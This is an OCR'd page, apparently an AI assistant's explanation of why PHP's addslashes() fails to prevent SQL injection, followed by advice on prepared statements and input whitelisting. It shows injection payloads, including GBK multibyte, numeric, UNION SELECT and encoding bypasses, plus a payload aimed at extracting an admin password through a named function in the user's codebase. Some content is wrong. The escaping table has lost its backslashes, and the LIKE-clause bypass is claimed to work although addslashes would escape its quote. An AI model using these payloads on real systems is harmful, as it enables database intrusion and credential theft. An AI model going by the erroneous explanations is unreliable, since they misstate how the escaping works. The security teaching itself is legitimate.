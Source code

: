 # addslashes

Here are the main techniques that demonstrate why addslashes() is insufficient protection:

**addslashes() only escapes these characters:**

Single quote (') → '
Double quote (") → "
Backslash () → \
NULL byte → \0

----------------------------------------------------
# Common Bypass Techniques
**1. Character Set Vulnerabilities**
When using multi-byte character sets (like GBK, Big5):

// Vulnerable code
$input = addslashes($_GET['input']);
$query = "SELECT * FROM users WHERE name = '$input'";

Bypass:
Input: %bf%27 OR 1=1 --
After addslashes: %bf%5c%27 OR 1=1 --
In GBK charset: %bf%5c becomes 縗 (single character)
Result: SELECT * FROM users WHERE name = '縗' OR 1=1 --'

**2. Second-Order SQL Injection**
When escaped data is stored and later used without re-escaping:

// First request - data gets stored with escaping
$name = addslashes("O\'Malley"); // Becomes O\'Malley in DB

// Later request - data retrieved and used without escaping
$stored_name = get_from_db(); // O'Malley (unescaped)
$query = "SELECT * FROM logs WHERE user = '$stored_name'"; // Vulnerable!

**3. Numeric Context Injection**
When injecting into numeric fields without quotes:

$id = addslashes($_GET['id']); // addslashes has no effect on numbers
$query = "SELECT * FROM users WHERE id = $id"; // No quotes around $id

Bypass:

Input: 1 OR 1=1
Query becomes: SELECT * FROM users WHERE id = 1 OR 1=1

**4. LIKE Clause Bypasses**
Using wildcards that aren't escaped by addslashes():

$search = addslashes($_GET['search']);
$query = "SELECT * FROM products WHERE name LIKE '%$search%'";

Bypass:

Input: %' UNION SELECT password FROM users WHERE '1'='1
Works because % and _ are not escaped by addslashes()

**5. Encoding Bypasses**
Using different encodings to bypass filtering:

URL encoding
%2527 → %27 → ' (after URL decode)

Unicode encoding
\u0027 → ' (in some contexts)

Hex encoding
0x27 → ' (in MySQL)

Real-World Example
Looking at your codebase, here's how an attack might work:

// In the vulnerable insert_tdb function
$severity = $_POST['severity']; // No addslashes() applied!
$query = "insert into tdb (...) values (..., '$severity', ...)";

admin_fns.php
Attack payload:

POST data: severity=high', (SELECT password FROM admin_users LIMIT 1), 'fake

Resulting query:

INSERT INTO tdb (...) VALUES (..., 'high', (SELECT password FROM admin_users LIMIT 1), 'fake', ...)

----------------------------------------------------
# Proper Prevention
Instead of trying to fix addslashes(), use these secure methods:

1. Prepared Statements (Recommended)
$stmt = $conn->prepare("INSERT INTO tdb (title, severity) VALUES (?, ?)");
$stmt->bind_param("ss", $title, $severity);
$stmt->execute();

admin_fns.php
2. Proper Escaping Functions
// Use database-specific escaping
$severity = mysqli_real_escape_string($conn, $_POST['severity']);

// Or PDO quote
$severity = $pdo->quote($_POST['severity']);

3. Input Validation
// Whitelist allowed values
$allowed_severities = ['critical', 'high', 'medium', 'low', 'informational'];
if (!in_array($_POST['severity'], $allowed_severities)) {
    die('Invalid severity');
}

The key takeaway is that addslashes() provides a false sense of security and should never be relied upon for SQL injection prevention. Always use parameterized queries or proper database-specific escaping functions.
